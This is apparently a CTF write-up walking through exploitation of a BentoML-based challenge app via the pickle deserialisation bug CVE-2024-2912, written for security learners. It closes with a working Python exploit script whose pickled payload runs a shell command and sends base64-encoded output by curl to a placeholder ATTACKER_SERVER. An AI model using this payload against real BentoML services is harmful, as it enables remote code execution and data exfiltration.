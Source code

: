 Notice the content type is JSON? Why not try and use the [Content Type Converter extension](https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278) to convert to XML? We are hackers after all, looking at a black box web app (a lot like bug bounty).

![](./images/9.PNG)

Now we get a 500 error: `BentoML does not currently accept application/xml` 💡 Changing the content-type to most values shows a similar error, but you could fuzz it if you like!

A smarter approach might involve looking around for vulnerabilities in the [BentoML library](https://github.com/bentoml/BentoML). Players would quickly discover [this pickle deserialisation bug (CVE-2024-2912)](https://huntr.com/bounties/349a1cce-6bb5-4345-82a5-bf7041b65a68) reported by [PinkDraconian](https://x.com/PinkDraconian). Fun fact; I used to work with Pink but didn't notice his name here until _after_ I made the challenge 😁

#### Deserialization (Python Pickle)

Anyway, the PoC listed above is all you need. Notice the content type is `application/vnd.bentoml+pickle`?

Well, if we set that in our request we get yet another new error: `Error during request to BentoML service`

Don't worry, that's just because our command was invalid (we're doing this blind). Always remember an error does not mean a command wasn't successful! How about a script like this?

{% code overflow="wrap" %}

```python
import pickle
import os
import requests

class P(object):
    def __reduce__(self): # Update server
        return (os.system, ("curl https://ATTACKER_SERVER/?result=`ls | base64`",))

result = pickle.dumps(P())

# Update session cookie
response = requests.post('https://challenge.cryptocat.me/beta', pickle.dumps(P()), headers={"Content-Type": "application/vnd.bentoml+pickle"}, cookies={
                         "session": ".eJwlzktqAzEQBNC7aJ1FfyS15MsM6h82gQRm7FXI3a2QZRVF8X7KkWdc93J7nq_4KMfDy63wHC7LFgiTMJv0TkA9qKr3Jj6Tsq8Kw2KtXWM2jy68ek73npYRJArOtdnA_aWDwDMAMJppNKyh5G1y9cHIs-0Vd6xiQ7WWDXldcf5rcEe7zjye35_x9cez5TKVFWggCzqkjmpWJ5NuwMwGRjnL7xsgrz_c.Z2r3vw.x5oGTbU8yIOy2AIpbO1k0Z4vWgI"})
```